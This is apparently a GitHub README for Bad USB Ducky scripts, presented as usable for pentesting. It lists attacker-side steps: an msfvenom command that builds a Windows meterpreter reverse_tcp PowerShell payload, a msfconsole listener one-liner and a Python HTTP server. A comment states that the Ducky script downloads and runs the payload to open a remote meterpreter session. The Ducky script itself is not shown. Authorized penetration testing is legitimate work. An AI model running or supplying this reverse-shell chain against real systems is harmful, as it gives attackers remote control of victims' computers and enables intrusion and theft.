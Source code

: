 # Various Ducky scripts for Bad USBs
Can be used for pentesting or administrative tasks.
-
# On The Attacker's Machine
-
Create the payload with msfvenom 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=AttacksersIP LPORT=AttackersPort -f psh -o PAYLOAD.ps1
# Open msfconsole and start listener
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost IP; set lport PORT; set ExitOnSession false; exploit -j"
# Start start python http server
python3 -m http.server 80
# Ducky script will download and execute powershell script opening meterpreter session



